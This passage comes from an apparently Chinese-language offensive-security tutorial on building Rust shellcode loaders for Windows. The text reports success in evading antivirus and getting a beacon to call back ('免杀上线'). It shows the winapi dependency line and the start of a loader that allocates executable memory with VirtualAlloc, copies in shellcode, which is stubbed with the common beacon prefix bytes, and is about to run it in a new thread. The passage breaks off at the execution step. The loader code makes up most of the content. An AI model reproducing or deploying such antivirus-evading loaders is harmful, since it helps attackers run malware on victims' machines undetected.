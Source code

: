 ```plain
            windows_sys::Win32::System::Memory::MEM_RELEASE,
        );
        windows_sys::Win32::Foundation::CloseHandle(thread_handle);
    }
}
```

之后编译运行，成功免杀上线

[![](assets/1699257255-652c924c0fc5ec3d5a2d492dac79fd01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232126-d24f6e70-7b25-1.png)

### winapi

和==windows-sys==一样，首先还是在==Cargo.toml==引入依赖

```plain
winapi = { version = "0.3.9", features = ["winuser", "memoryapi", "synchapi", "handleapi", "errhandlingapi", "processthreadsapi"] }
```

实现代码如下

```plain
#![windows_subsystem = "windows"]

use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    // 存储新进程的 id
    let mut thread_id = 0;

    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83];  // shellcode

    unsafe {
        // 分配可执行内存
        let mem_alloc = VirtualAlloc(std::ptr::null_mut(), shellcode.len(), 0x00001000, 0x40);
        std::ptr::copy(shellcode.as_ptr() as *const u8, mem_alloc as *mut u8, shellcode.len());

        // 执行shellcode
```